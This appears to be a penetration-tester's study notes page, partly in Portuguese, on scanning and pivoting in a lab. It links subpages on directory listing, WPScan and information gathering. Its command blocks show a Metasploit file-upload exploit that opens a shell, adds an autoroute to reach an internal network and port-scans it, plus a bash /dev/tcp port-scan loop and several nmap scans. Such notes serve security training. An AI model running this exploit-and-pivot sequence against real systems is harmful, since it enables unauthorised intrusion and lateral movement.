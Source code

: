 # Scaning

# Directory Listing

[Directory Listing](Scaning%2077d13b7fceda4121afc7d2ef7522c405/Directory%20Listing%204fcf5ae685e14a9f80d3b4c52f9aadeb.md)

# WPscan

[WPscan](Scaning%2077d13b7fceda4121afc7d2ef7522c405/WPscan%2042a688b55bf54093b1094f0c82eeff22.md)

# Passive Information Gather

[**Passive Information Gather**](Scaning%2077d13b7fceda4121afc7d2ef7522c405/Passive%20Information%20Gather%203386356972634b789a86aaab6a138288.md)

# Active Information Gather

[Active Information Gather](Scaning%2077d13b7fceda4121afc7d2ef7522c405/Active%20Information%20Gather%20eeda950901024f5693a04121971aa64f.md)

# Foward port scan with Metasploit

- Foward port scan with Metasploit
    
    ```bash
    Initial Fotprint 
    
    msfconsole
    use exploit/unix/webapp/xoda_file_upload
    set RHOSTS 192.120.121.3
    set TARGETURI /
    exploit
    shell
    ip addr
    
    Configurar a nova rota 
    run autoroute -s 192.125.162.2
    
    use auxiliary/scanner/portscan/tcp
    set RHOSTS 192.125.162.3
    set verbose true
    set ports 1-1000
    exploit
    ls -l /root/tools/static-binaries
    
    ```
    

# Others

- Bash Scrip Scan
    
    ```powershell
    Basch Scrip Scan
    #!/bin/bash
    for port in {1..1000}; do
    timeout 1 bash -c "echo >/dev/tcp/$1/$port" 2>/dev/null && echo "port $port is open"
    done
    
    ```
    
- Scanning sem Nmap ****
    
    ```bash
    for PORT in {0..1000}; do timeout 1 bash -c "</dev/tcp/172.19.0.1/$PORT
    &>/dev/null" 2>/dev/null && echo "port $PORT is open"; done
    ```
    
- NMAP
    
    ```bash
    nmap 192.206.172.3 -p 177 -A
    nmap 192.206.172.3 -p 1-250 -sU
    nmap 192.206.172.3 -p 134,177,234 -sUV
    nmap 192.206.172.3 -p 134 -sUV --script=discovery
    tftp 192.206.172.3 134
    nmap 192.57.232.3 -T4 -p-
    nmap 192.57.232.3 -T4 -sU
    ```